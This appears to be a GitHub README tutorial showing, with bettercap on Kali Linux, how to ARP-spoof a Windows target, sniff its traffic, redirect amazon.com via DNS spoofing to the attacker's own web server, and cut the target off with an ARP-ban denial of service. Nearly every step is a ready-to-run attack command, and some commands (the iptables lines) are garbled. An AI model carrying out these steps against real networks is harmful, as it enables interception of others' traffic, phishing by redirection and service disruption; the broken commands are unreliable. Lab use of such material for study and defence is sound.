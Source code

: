 # Dns-Spoofing-with-bettercap
DNS Spoofing: How to Perform the Attack
To execute DNS spoofing, we will need a Kali Linux machine and a target machine running Windows 7, XP, or 10... Now, let's proceed!
![Anwer Lahami](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/DNS-spoofing.jpg)
### installing bettercap :
Bettercap is written in Go and provides a variety of features for interacting with networks, capturing and analyzing data, and performing various security-related tasks.
```
sudo apt-get update
sudo apt install bettercap
```
### lunching Bettercap: 
we can now lunch it using :
```
sudo bettercap
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/0292bf7c-1b96-424b-924b-2b639f8372fa)

then type ```help``` 

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/b3e30087-72bd-49d1-abf0-317f2ed9c7cb)

we can see net.probe && net.recon are not running , net.probe : this module will send different types of probe packets to each IP in the current subnet in order for the net.recon module to detect them.
to activate it: 

```
net.probe on
```

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/8ac8972c-03df-48b6-89af-ec0818e467c6)

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/3ca31fca-9f19-458a-829f-c5639502fa6e)

### ARP spoof attack:
first let's check the table arp in our target machine

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/ac5bf67a-c2c7-42e7-beea-528b65fbcf71)

we can see the adrees of the router and our Kali machine
then let's from our machine check the module ARP.spoof using:
```
help arp.spoof
```

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/a34af5aa-93aa-4c3c-96b5-05d5d54b8049)

#### setting the environnement for the attack
Let's execute the following command:
```set arp.spoof.fullduplex true``` 
this means that we will target both the router and the target machine (in our case windowsXP) 
!!! if the router has ARP spoofing protections in place this will make the attack fail (default=false)
```
set arp.spoof.target @ip Target machine
```
NOTE: we can replace @ip target machine with a range of address seperated by a commas or a subnet
to sniff the traffic and redirect to our machine 
```
set net.sniff.local true
```
we can type 
```
help net.sniff to see more infomation
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bette
rcap/assets/124587170/161885a6-e95c-46d8-a072-01eaa1ae5b01)
#### executing the attack
```
arp.spoof on
net.sniff on
```
WARNING: in some case will see this type of message 

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/6e48d7c7-ac49-43c0-9ab6-225d3b00b3c6)

#### solving the issue :
!! first insure that your apache2 serveur is stopped
else:
we need to redirect the packet in and out of our machine so we need to set the machine to forward the packets:
```
iptables -arp -a FORWARD -i (your interface in my case 'eth0') -j ACCEPT
iptables -arp -a FORWARD -o (your interface in my case 'eth0') -j ACCEPT
nano /etc/systcl.conf
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/2dabac88-e54a-482b-9375-f0484e4910c4)

now we can see the raffic of the target machine and let's check it's arp table:

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/89a095a5-e9ce-4d49-88ee-ef6da9712d43)

We can even visualize and see the data sended it in the http mode 

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/a078902b-1da0-4b66-afef-421797d2e6d9)

this attack is not available now since many website disable their http version 
###DNS spoofing
Now we are going to spoof a DNS
let's see the module in bettercap using:

```
hepl dns.spoof
```

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/536274db-d932-4aaa-ad6f-40b8b0e6ec8e)

what we want to do here is to take a domain and spoof it back to my IP address
first let's start our apache2 server:
```
sudo service apache2 start
```
if we type 127.0.0.1 in ou kali machine we can see the index  page :
! if your asking how change the index.html file just do the following commands:
```
cd /var/www/html
sudo nano index.html
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/ccd2cfe9-60a1-4220-9439-9c57a36f38c9)

then let's go to our terminal:
```
set dns.spoof.domains amazon.com
set dns.spoof.address @ip_kali
dns.spoof on 
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/dd901841-ef02-4349-a973-f4af9b8bab81)

now let's go to the target and type: amazon.com

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/71ac0d35-818a-42b7-a0be-fad53a6163b2)

### DOS using ARP 
```
arp.ban on
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/3c3d4c50-d1a2-45c6-a6d0-16732bb48028)

Start ARP spoofer in ban mode, meaning the target(s) connectivity will not work.

for additionnal informations:
https://www.bettercap.org/modules

